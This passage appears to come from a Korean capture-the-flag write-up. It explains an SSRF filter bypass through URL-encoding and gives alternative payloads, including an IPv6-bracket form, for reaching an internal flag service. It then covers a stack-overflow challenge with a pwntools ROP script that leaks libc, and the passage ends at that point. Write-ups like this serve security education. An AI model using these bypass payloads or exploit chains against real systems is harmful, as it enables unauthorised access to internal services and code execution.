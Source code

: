 `request.get()`를 통해 internal 서버의 `http://flag.service/flag`[로](http://flag.service/flag로) 요청하고 응답을 받는다.

여기서 의문이 생길 수 있는 부분이 있다. hostname으로 `flag%2eservice` 를 입력했는데, 어떻게 요청은 `http://flag.service/flag` 가 될까?

그 이유는 `request.get()` 함수는 내부적으로 url 인코딩된 인자를 url 디코딩하도록 동작하기 때문이다.

이런 이유로 `flag%2eservice`와 같이 hostname을 전송하더라도 `http://flag.service/flag`로 요청된다.

참고로 

```python
http://flag.service\/../flag

http://[flag.service:80]/flag
```

위와 같은 payload로 우회할 수도 있다.

개인적으로 IPV6를 이용해서 우회하는 것은 신박했다. IPV6로 우회가능한 이유는 urllib.parse.urlparse 코드를 보면 알 수 있는데, IPV6와 관련된 작업을 대충처리해서 쉽게 우회되는 방식이었다.

# PWN

## x64_rop

---

```c
ssize_t rop()
{
  char buf[16]; // [rsp+0h] [rbp-10h] BYREF

  return read(0, buf, 0x200uLL);
}
```

rop 함수에서 BOF가 발생한다.

rop chain을 구성해서 exploit을 수행하면 된다.

```python
from pwn import *
import warnings

warnings.filterwarnings("ignore")

p = process('./x64_rop', env={'LD_PRELOAD':'./libc.so.6'})
e = ELF("./x64_rop")
libc = ELF("./libc.so.6")

puts_plt = e.plt['puts']
puts_got = e.got['puts']
main = e.sym['main']
pop_rdi = 0x401203
ret = 0x40101a

# puts(puts_got) ; call main
payload = b"\x90"*0x18
payload += p64(pop_rdi) + p64(puts_got)
payload += p64(puts_plt)
payload += p64(main)

p.sendlineafter(": ", "1")
p.sendline(payload)

# Leak libc base
```